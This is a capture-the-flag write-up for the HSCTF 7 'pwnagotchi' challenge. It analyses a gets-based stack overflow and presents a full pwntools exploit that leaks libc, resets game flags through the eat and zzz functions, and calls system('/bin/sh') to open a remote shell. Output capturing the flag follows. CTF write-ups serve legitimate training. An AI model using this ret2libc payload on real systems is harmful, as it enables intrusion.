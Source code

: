 # HSCTF 7

## pwnagotchi

> 116
>
> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

Tags: _pwn_ _bof_ _rop_ _x86-64_ _remote-shell_


## Summary

From infamous `gets` to ROPing a second pass after leaking libc to land a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

GOT, BOF, and ROP exploitable.

    
### Decompile with Ghidra

![](main.png)

> I get one of these a week (_groan_).  I'm only writing this one up because there's a _gotcha_.

`gets` + no canary + no PIE = easy ROP.

`local_14` is `0x14` bytes from the return address.

Simple two-pass attack.  Leak libc and _return-to-main_ for a second pass to get a shell.

_So where's the gotcha?_

Line 16 has a global (`once`) that if set will prevent a second pass from getting to `gets`, _unless_ `sleepy` and `hungry` are reset.

Fortunately, the following two ROPable functions are provided:


```c
void eat(void)

{
  puts("om nom nom");
  hungry = 0;
  return;
}
```

```c
void zzz(void)

{
  int iVar1;
  
  puts("zzz...");
  iVar1 = rand();
  sleep(iVar1 % 3 + 1);
  sleepy = 0;
  return;
}
```

This is a minor twist on what is a frequent trope with undergrad/highschool CTFs.


## Exploit

### Attack Plan

1. First Pass: Leak libc and _return-to-main_
2. Second Pass: Get a shell, get the flag.


### First Pass: Leak libc and _return-to-main_

```python
#!/usr/bin/python3

from pwn import *

#p = process('./pwnagotchi')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('pwn.hsctf.com', 5005)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('pwnagotchi')

context.update(arch='amd64')
rop = ROP('pwnagotchi')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['eat'])
payload += p64(binary.symbols['zzz'])
payload += p64(binary.symbols['main'])

p.sendline(payload)

p.recvuntil('is not happy!\n')
_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
print(hex(puts))
baselibc = puts - libc.symbols['puts']
print(hex(baselibc))
```

Please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this exploit works, the only different here is the use of `puts` vs. `printf` to leak libc and the calls to `eat` and `zzz` to reset `speepy` and `hungry`.

IANS, smash the stack, pop rdi to leak the address of `puts`, compute the version and location of libc, eat, sleep, repeat.


### Second Pass: Get a shell, get the flag.

```python
p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)

p.interactive()
```

Again, please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this second-half of the exploit works.


Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5005: Done
[*] '/pwd/datajerk/hsctf7/pwnagotchi/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/hsctf7/pwnagotchi/pwnagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'pwnagotchi'
0x7f9dda6789c0
0x7f9dda5f8000
[*] Switching to interactive mode


\ (•◡•) /

AAAAAAAAAAAAAAAAAAAA\xf4	@ is happy!
$ cat flag.txt
flag{theyre_so_cute}
```
